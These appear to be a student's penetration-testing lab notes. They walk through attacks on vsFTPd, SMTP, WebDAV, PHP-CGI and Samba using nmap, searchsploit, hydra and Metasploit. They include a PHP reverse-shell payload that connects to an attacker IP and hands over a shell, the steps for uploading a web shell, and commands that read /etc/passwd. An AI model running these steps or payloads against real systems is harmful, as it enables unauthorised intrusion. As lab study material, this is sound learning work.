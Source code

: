 

#### Port scanning & enumeration 

- service versoin detection scan on target system `nmap -sV -p1-10000 target -oN nmap_10k.txt 
- manual banner grabbing if nmap does not provide any results: `nc - nv ip port`

![[Pasted image 20230916125239.png]] 
this port allowed a connection to a bind shell listener (root shell :O)


#### Targeting vsFTPd

- nmap port 21 
if anonymous login is allowed we can login without credentials
- ftp ip port (username:anonoymous emptypassword)
- `searchsploit vsftpd `
- `searchsploit -m exploitdb_id 
- analyze exploit with `vim` 
- `chmod -x file`
- `python3 file ip `

it is possible that this does not work bc the port used in this exploit can be removed  by the administrator (check port wit nmap) -> exploits might not work bc they have been patched. 

- nmap -sV -p 25 ip (SMTP)
smtp gives you easy way to identify user accounts on target system. 
	- use msfconsole
	- search smtp_enum 
 accounts: add them to textfile. 

Use the account `service` in the bruteforce, not interesting to use service accounts for bruteforce. Only use user-accounts in bruteforce
ftp bruteforce: `hydra -l service -P /usr/share/metasploit-framework/data/wordlists/unix_users.txt target protocol `

Connect to ftp with credentials of useraccount
- `pwd` (if result is /home/service that that confirms that this is a user-account)
- `cd /`
- visit webserver in browser
	- Use webdav to get reverse shell 
		- `ls -al /usr/share/webshells/`
		- you need a php shell:  php-reverse-shell.php
		- copy file to current working directory: `cp /usr/share/webshells/php/php-reverse-shell.php . `
		- rename: `mv php-reverse-shell.php shell.php `
		- modify the file: change the ip to kali ip and the port should match with the port you will be listening on
			- set up netcat in other window: `nc -nvlp 1234 `
		- navigate to root of ftp (ftp stores everything under var)
			- cd /var/www
			- cd dav (only have rights to change this directory)
			- put shell.php 
			- click on the file (the netcat listener window will show a connection, /bin/bash -i)





#### Targeting PHP

- run nmap service scan 
- visit webserver in browser 
	- what version of php is running? 
		- visit /phpinfo.php file in browser
	- `searchsploit php cgi `
	- `searchsploit -m 18836.py . `   (CGI Argument Injected )
	- 

![[Pasted image 20230916153801.png]]
![[Pasted image 20230916154248.png]]modify pwn_code to provide us with a reverse shell

**$sock=fsockopen("IP",1234);exec("/bin/sh -i <&3 >&3 2>&3");** 

(IP = kali ip, port of listner)

Explanation: simple PHP script, this code creates a socket con'nection to a specified IP address and port, and then it executes an interactive shell (`/bin/sh -i`) that reads its input from and writes its output to that socket connection. This can be used for remote command execution,

1. `$sock = fsockopen("IP", 1234);`: This line uses the `fsockopen` function to create a network socket connection to the IP address specified in place of "IP" and the port 1234. The `fsockopen` function is often used in PHP to create socket connections to remote servers or services.
    
2. `exec("/bin/sh -i <&3 >&3 2>&3");`: After establishing the socket connection, this line uses the `exec` function to execute a shell command. The shell command being executed is `/bin/sh -i`, which typically invokes a Unix/Linux shell (e.g., Bash) in interactive mode (`-i`).
    
    - `<&3`: This part of the command redirects the standard input (stdin) of the shell to the socket connection represented by file descriptor 3. In this context, file descriptor 3 is assumed to be associated with the socket created in the previous line.
        
    - `>&3`: This part of the command redirects the standard output (stdout) of the shell to the same socket connection (file descriptor 3).
        
    - `2>&3`: This part redirects the standard error (stderr) of the shell to the same socket connection (file descriptor 3).

run exploit: python2 file ip port 

![[Pasted image 20230916154708.png]]
if you do not get a shell after executing change the 3 to 4: ![[Pasted image 20230916154849.png]]

`cat /etc/*release`
`uname -r`


#### Targeting SAMBA 

SMB implementation of Linux 

- `nmap -sV -p 445 ip `
- banner grabbing on port 445
- msfconsole: `search smb_version` 
- search vulnerabilities for version 
	- `searchsploit samba version `
	- in metasploit:` search samba version `
- use usermap_script 
- `cat /etc/*issue`
- `cat /etc/*release`
- upgrade session 
	- `sysinfo` 
	- `getuid`
	- `cat /etc/passwd `



